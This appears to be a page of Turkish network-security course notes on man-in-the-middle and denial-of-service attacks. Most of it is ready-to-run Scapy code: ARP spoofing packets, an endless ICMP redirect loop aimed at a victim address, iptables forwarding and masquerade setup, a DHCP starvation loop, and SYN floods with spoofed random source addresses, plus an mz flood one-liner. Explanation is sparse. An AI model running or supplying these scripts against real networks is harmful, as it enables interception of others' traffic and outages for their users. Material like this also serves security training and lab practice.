 ##  8.Gün 28.07.2018

## Man in the Middle (MitM)

    MitM      Layer   DHCP    DNS

    Layer-2    TCP

    Layer-3    UDP

    DHCP

**ARP ile**
```

 echo 1 > /proc/sys/net/ipv4/ip_forward # Routing activation

 eth = Ether(dst="00:0c:29:fe:7b:ea",src="00:0c:29:14:3c:c8")

 arp = ARP(op=1, hwsrc="00:0c:29:14:3c:c8",psrc=<"SRC_IP">,pdst=<"DEST_IP">, hwdst=<"DEST_MAC">)

 sendp(eth/arp)
 
```

**ICMP Redirect ile**
```
# MitM against:
# - static ARP entries
# - Dynamic ARP inspection

# Prerequisites:
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE

# Creating and sending ICMP redirect packets between these entities:
#import logging
#logging.getLogger("scapy").setLevel(1)

from scapy.all import *

originalRouterIP='10.6.7.254'
attackerIP='10.6.4.90'
victimIP='10.6.6.6'
serverIP='188.132.200.17'

#Here we create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP

#The ICMP packet payload /should/ :) contain the original TCP SYN packet
#sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555

#Release the Kraken!
while True:
        send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
        
```

Paket kaynak kısmını değiştirmek için iptables kullanılabilir.
```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**DHCP**

- DHCP servisi (yok ise kurulmalıdır) ile gateway adresini değiştirilir
- DHCP sunucusundaki havuzu doldurmak (DHCP-Starvation)

```
$ scapy
for i in range(1,255):
    mac = str(RandMAC())
    dhcpServerID="192.168.255.251"
    eth = Ether(dst="ff:ff:ff:ff:ff:ff",src=mac)
    ip  = IP(src="0.0.0.0",dst="255.255.255.255")
    ud  = UDP(sport=68,dport=67)
    bootp = BOOTP(chaddr=mac)
    dhcp = DHCP(options = [ ("message-type","request"),("requested_addr","192.168.255."+str(i)),("server_id",dhcpServerID),"end"])
    sendp(eth/ip/ud/bootp/dhcp)
```
Yukarıdaki işlemden sonra DHCP sunucusu ile IP isteği yapan hedef makinelere IP vererek trafiği incelenir.

**TCP**

TCP/DoS saldırısı daha etkili olması için TCP/SYN paketinin source IP ve port bilgileri değiştirilir. 

```
$ scapy
ip = IP(src=RandIP(),dst="0.0.0.0")
tcp = TCP(sport=RandShort(),dport=80,flags="S")
paket = ip/tcp
send(paket,loop=1)
```

mz aracı ile:
```
mz -B <IP> -t tcp "sp=1-65535, dp=80, flags=syn" -c 0
```

